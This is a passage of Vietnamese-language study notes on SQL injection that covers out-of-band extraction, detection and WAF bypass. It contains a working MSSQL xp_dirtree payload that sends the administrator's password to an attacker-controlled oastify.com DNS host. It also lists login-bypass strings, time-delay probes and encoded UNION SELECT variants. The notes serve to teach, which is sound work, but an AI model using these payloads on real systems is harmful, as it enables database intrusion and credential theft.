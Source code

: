 - **Out-of-Band SQLi**: Tấn công sử dụng một cấu trúc truy vấn SQL để yêu cầu sever trả về kết quả thông qua các kênh liên quan đến mạng. Kiểu tấn công này xảy ra khi hacker không thể trực tiếp tấn công và thu thập kết quả trực tiếp trên cùng một kênh (In-band SQLi), và đặc biệt là việc phản hồi từ server là không ổn định, Kiểu tấn công này phụ thuộc vào khả năng server thực hiện các request DNS hoặc HTTP để chuyển dữ liệu cho kẻ tấn công. Ví dụ như câu lệnh xp_dirtree trên Microsoft SQL Server có thể sử dụng để thực hiện DNS request tới một server khác do kẻ tấn công kiểm soát
  - Sau khi xác định vị trí xảy ra lỗ hổng Blind SQL injection và có thể khai thác bằng kỹ thuật Out-of-band, tiếp theo có thể thực hiện truy xuất dữ liệu. Chẳng hạn chúng ta cần khai thác mật khẩu của người dùng administrator trong cột password, bảng users, xây dựng payload như sau:

```sql!
'; declare @t varchar(1024);set @t=(SELECT password FROM users WHERE username='administrator');exec('master..xp_dirtree "//'+@t+'.b8k3x9r3ws891m1ceppwxj0ksby2mr.oastify.com/a"')--
```

- chúng ta sẽ nhận được một request gửi từ database trang web.
- Khi thực thi câu truy vấn, trong cơ sở dữ liệu sẽ khai báo một biến @t có kiểu varchar, kích thước 1024, gán giá trị cho nó bằng kết quả câu truy vấn SELECT password FROM users WHERE username='administrator', và "đính kèm" biến này vào tên miền được phân giải trong dịch vụ phân giải DNS. Về phía nhận sẽ thu được request cùng với biến @t - chính là mật khẩu người dùng administrator chúng ta cần tìm kiếm

cú pháp thực hiện quá trình DNS lookup

![image](https://hackmd.io/_uploads/H19vTRp5p.png)

cú pháp truy xuất dữ liệu trong kỹ thuật Out-of-band với từng loại cơ sở dữ liệu:

![image](https://hackmd.io/_uploads/r1R-RC6c6.png)

Lưu ý trong MySQL, các cú pháp dùng cho hệ điều hành Window.

![image](https://hackmd.io/_uploads/HyEuR0a56.png)

- **Phát hiện**

  - Gửi dấu nháy đơn `'` , nháy kép `"`, chấm phẩy `;`, ký tự comment như `--`, `#`,... và chờ kết quả phản hồi của web
  - ![image](https://hackmd.io/_uploads/HkAYlzj96.png)

  - Gửi các điều kiện boolean như `OR 1=1`, `OR 1=2` ... và xem phản hồi.
  - `' or 1=1--   " or 1=1--   or 1=1--   ' or 'a'='a   " or "a"="a   ') or ('a'='a`
  - Thỉnh thoảng chỉ cần gõ [‘ or “] vào trường kiểm tra. Nếu nó trả ra bất kỳ thông báo không mong muốn hoặc bất thường nào, chúng ta có thể chắc chắn rằng SQL Injection có thể thực hiện với trường đó.
  - Gửi payload thử thời gian trả về như `SLEEP(5)`, `pg_sleep(10)`, `DELAY '0:0:10'` ...
  - ![image](https://hackmd.io/_uploads/BkrMezi5p.png)

- Khai thác tự động
  - Sử dụng sqlmap, sử dụng các wordlists về payload để brute-force...
- chúng ta có thể dùng cheatsheet của portswigger để phục vụ cho việc khia thác: https://portswigger.net/web-security/sql-injection/cheat-sheet
- Bypass WAF

  - Thay đổi ký tự tấn công hỗn hợp (Mixed Case Change)
    - Thông thường, với một firewall áp dụng cơ chế blacklist, nó sẽ lọc theo các từ khóa tấn công như union, select... Với một bộ lọc yếu, bạn có thể thay đổi union thành Union hoặc UniOn... Ví dụ: http://target.com/index.php?page_id=-15 uNIoN sELecT 1,2,3,4
  - Thay thế từ khóa (Chèn các ký tự đặc biệt sẽ bị xóa bởi WAF) - SELECT có thể trở thành SEL<ECT sẽ được chuyển thành SELECT khi ký tự vi phạm bị xóa. Ví dụ: http://target.com/index.php?page_id=-15&nbsp;UNIunionON SELselectECT 1,2,3,4
  - Sử dụng mã hóa:
    - URL encode: `page.php?id=1%252f%252a*/UNION%252f%252a /SELECT`
    - Hex encode: `target.com/index.php?page_id=-15 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4`
    - `SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61))`
    - Unicode encode: `?id=10%D6‘%20AND%201=2%23`